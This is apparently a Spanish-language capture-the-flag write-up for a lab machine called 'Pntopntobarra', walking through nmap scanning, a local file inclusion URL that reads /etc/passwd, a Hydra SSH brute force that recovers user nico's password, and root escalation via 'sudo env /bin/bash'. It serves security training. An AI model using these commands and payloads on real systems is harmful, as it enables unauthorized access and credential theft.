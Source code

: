 ```yaml
---
description: '✍️ Autor: Maciiii__🔍 Dificultad: Fácil  📅 Fecha de creación: 19/08/2024'
---
```


# Pntopntobarra

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (485).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (486).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo, el puerto **22** perteneciente al servicio **SSH** y el puerto **80** perteneciente al servicio **HTTP** están abiertos, por lo que se procederá a indagar más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (487).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora exploramos el servicio **HTTP**. Se ingresó la dirección IP en el navegador, lo que llevó a que la página web sobre que nos han infectado con un virus.

<figure><img src="../../.gitbook/assets/image (488).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (489).png" alt=""><figcaption></figcaption></figure>

Miramos que hay un archivo `ejemplo.php` que es el que sale cuando pulsamos en ejemplos de computadoras infectadas.&#x20;

Parece que hemos encontrado una advertencia relacionada con un posible ataque. El mensaje menciona un "LeFvIrus", que si observamos las letras en mayúscula, forma "LFI". Esto sugiere que podríamos estar lidiando con una vulnerabilidad de Inclusión de Archivos Locales (Local File Inclusion).

Al acceder a la sección "Ejemplos de computadoras infectadas", somos redirigidos a un archivo `.php` que muestra un mensaje de error: "Error al cargar el archivo". Sin embargo, en la barra de búsqueda se encuentra la siguiente URL:

```bash
http://172.17.0.2/ejemplos.php?images=./ejemplo1.png
```

Podemos experimentar cambiando el valor de `images` de `./ejemplo1.png` a `/etc/passwd`, lo que nos permitiría intentar explotar la vulnerabilidad:

```bash
http://172.17.0.2/ejemplos.php?images=/etc/passwd
```

<figure><img src="../../.gitbook/assets/image (490).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (492).png" alt=""><figcaption></figcaption></figure>

Al parecer, hemos descubierto a **Nico** que posiblemente sea un usuario, por lo que intentaremos conectarnos a través de **SSH**.

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l nico -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 5
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **172.17.0.2**.&#x20;

Obtuvimos la contraseña que es **lovely.**

<figure><img src="../../.gitbook/assets/image (344).png" alt=""><figcaption></figcaption></figure>

Al realizar el ataque de fuerza bruta, hemos descubierto la contraseña de ese usuario. Sabiendo esto, nos conectamos a través de **SSH** al usuario con el comando:

```bash
ssh nico@172.17.0.2
```

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

&#x20;Observamos que tenemos permisos para ejecutar el binario `env`con privilegios de **root**. Aprovechando esta oportunidad, utilizamos el siguiente comando:

```bash
sudo env /bin/bash
```

Con esto, obtenemos acceso al **shell** como **root**, adquiriendo privilegios completos en el sistema.
